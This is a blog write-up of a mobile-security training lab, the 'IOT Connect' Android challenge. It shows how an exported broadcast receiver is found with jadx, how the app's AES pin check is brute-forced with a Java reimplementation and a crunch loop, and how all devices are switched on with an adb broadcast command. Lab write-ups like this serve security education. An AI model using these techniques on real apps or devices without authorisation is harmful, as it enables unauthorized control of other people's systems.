






I've been going through the free [Android Application Security course by Mobile Hacking Lab](https://www.mobilehackinglab.com/course/free-android-application-security-course). I would recommend this to you if you are looking to get started with Android Application pentesting. They have great labs as well, which are excellent if you are looking to get your hands dirty. This blog is a writeup for one of their free labs - IOT Connect.

The goal of the challenge is to manipulate a broadcast receiver functionality in the application in a way that it activates the master switch giving you control over all connected devices.

# Analyzing the Application
Since there is a Login activity and a Sign Up activity, I started with registering a user for myself, and logging in. There's 2 functionalities provided here, `Setup` and `MasterSwtich`. `Setup` allows you to control a bunch of devices. Although it looks like we have guest access, and some devices like the TV are not under our control.


The `MasterSwitch` functionality asks for a 3 digit pin, to control the "MasterSwtich". We obviously don't know the pin to this.

Analyzing the source with jadx-gui, we see there's a receiver defined as `com.mobilehackinglab.iotconnect.MasterReceiver`. Searching through the source for `MasterReceiver`, we see the broadcast receiver defined in `com.mobilehackinglab.iotconnect.CommunicationManager`. The receiver expects an integer, which is passed to `Checker.INSTANCE.check_key`, and if this returns true, then `CommunicationManager.INSTANCE.turnOnAllDevices` is called.


`turnOnAllDevices` quite literally just turns on all devices.


The `Checker` class generates a key using the integer passed to `check_key` function, then decrypts an AES/ECB encrypted string with this. A boolean value is returned based on if this string matches `master_on`.


# Cracking the Key
We could try to figure out the integer that needs to be passed to `check_key`, but I decided to bruteforce this to make my life easier. This code is a modified version of the `Checker` class, that can be compiled and run with java.
```java
import java.lang.*;
import java.util.Base64;
import javax.crypto.BadPaddingException;
import javax.crypto.Cipher;
import javax.crypto.spec.SecretKeySpec;
import java.nio.charset.Charset;

public final class Checker {
    public static final Checker INSTANCE = new Checker();
    private static final String algorithm = "AES";
    private static final String ds = "OSnaALIWUkpOziVAMycaZQ==";

    public final boolean check_key(int key) throws Exception {
        return decrypt(ds, key).equals("master_on");
    }

    public final String decrypt(String ds2, int key) throws Exception {
        SecretKeySpec secretKey = generateKey(key);
        Cipher cipher = Cipher.getInstance(algorithm + "/ECB/PKCS5Padding");
        cipher.init(2, secretKey);
        byte[] decryptedBytes = cipher.doFinal(Base64.getDecoder().decode(ds2));
        return new String(decryptedBytes, Charset.forName("UTF-8"));
    }

    private final SecretKeySpec generateKey(int staticKey) throws Exception {
        byte[] keyBytes = new byte[16];
        byte[] staticKeyBytes = String.valueOf(staticKey).getBytes(Charset.forName("UTF-8"));
        System.arraycopy(staticKeyBytes, 0, keyBytes, 0, Math.min(staticKeyBytes.length, keyBytes.length));
        return new SecretKeySpec(keyBytes, algorithm);
    }

    public static void main(String[] args) {
        try {
            int key = Integer.parseInt(args[0]);
            Checker c = new Checker();
            boolean b = c.check_key(key);
            System.out.println(String.format("%d %b", key, b));
        } catch (Exception e) {
            System.out.println(e.getMessage());
        }
    }
}
```

Since the application expects a 3 digit integer, I generated a wordlist with crunch, and then bruteforced `check_key`.
```bash
crunch 3 3 0123456789 |grep -vE '^0' > wordlist.txt
for i in $(cat wordlist.txt); do java Checker $i; done
```


# The Final Exploit
The key is `345`. Let's invoke the broadcast receiver with this key using adb. Note that the receiver is exported, and expects to be invoked with the action `MASTER_ON` and the key as an extra integer.
```bash
adb shell am broadcast -a MASTER_ON --ei key 345
```


We get a toast message stating `All devices are turned on`. All the devices have also been turned on, including the one's we are not supposed to have control over.

